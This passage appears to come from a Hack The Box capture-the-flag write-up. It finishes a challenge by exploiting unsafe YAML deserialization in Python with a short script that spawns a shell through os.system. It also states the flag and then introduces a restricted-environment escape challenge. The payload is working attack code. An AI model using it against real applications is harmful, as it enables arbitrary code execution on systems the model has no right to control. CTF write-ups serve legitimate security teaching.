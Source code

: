 Upon examining the serialized object provided by the application, I have determined that it is a YAML-formatted Python serialized object. This [article](https://net-square.com/yaml-deserialization-attack-in-python.html) serves as an excellent illustration of how attackers can leverage YAML-based exploits to execute arbitrary code.

Here is the script to generate a serialized object.

```python
import yaml
import os
import base64
class Test(object):
  def __reduce__(self):
    return (os.system, ('sh',))
serialized_data = yaml.dump(Test()) # serializing data
print(base64.b64encode(serialized_data.encode()).decode())
```

Let's grab the result and throw it to the application.

<img src="hijack4.png" alt="Demo" width="1000"/>

Flag is: **HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}**

## Restricted

* **Given file:** [Get it here!](https://drive.google.com/file/d/1bu8crqTZ-PEVLRN5Dk6OhVWADcZIoYw3/view?usp=sharing)

* **Description:** You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment?

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.
